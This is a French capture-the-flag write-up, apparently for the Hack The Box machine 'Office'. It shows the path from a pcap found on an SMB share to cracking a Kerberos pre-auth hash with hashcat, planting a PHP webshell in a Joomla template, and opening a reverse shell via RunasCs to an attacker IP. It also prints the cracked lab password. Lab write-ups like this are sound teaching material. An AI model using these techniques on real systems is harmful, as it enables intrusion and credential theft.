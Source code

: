 ![[nxc-shares.png]]
### Foothold - web_account

On retrouve le share `SOC Analysis` qui semble intéressant. Connexion au share, il y a un fichier .pcap que l'on récupère

![[get_pcap.png]]

On est en présence d'un fichier .pcap avec le protocole kerberos qui montre que le compte tstark est vulnérable à une pre-auth kerberos, et on peut récupérer son mot de passe.
-> https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/

![[krb-preauth.png]]

Format pour le cracking

```
hashcat.exe -m 19900 "$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc" C:\Users\LucasLefèvre\Downloads\rockyou.txt
```

Après avoir télécharger la version BETA d'hashcat afin de pouvoir accéder au mode 19900, on peut retrouver le mot de passe de `tstark:playboy69`.

![[hashcat-crack.png]]
On peut se connecter au panel d'admin Joomla avec les creds `Administrator:playboy69`.

![[80-joomdash.png]]

On peut modifier le template afin d'insérer un webshell PHP

![[80-code.png]]

On peut aussi utiliser ce [script](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php) PHP pour obtenir un reverse shell à la place d'index.php par exemple.

![[80-websvc.png]]
## Pivot - tstark

Après avoir transférer RunasCs et nc.exe sur la target, obtenir un shell en tant que tstark

`RunasCs.exe tstark playboy69 cmd.exe -r 10.10.14.36:9001`

![[runascs.png]]

## Pivot latéral - ppots

En enumérant, on retrouve un autre site web `Internal` sous `C:\xampp\htdocs\internal`

![[int-resume.png]]
En regardant le code source, on peut voir que c'est un application qui fait du file upload, avec les extensions de fichiers autorisés (.docm, .docx, .doc, .odt).
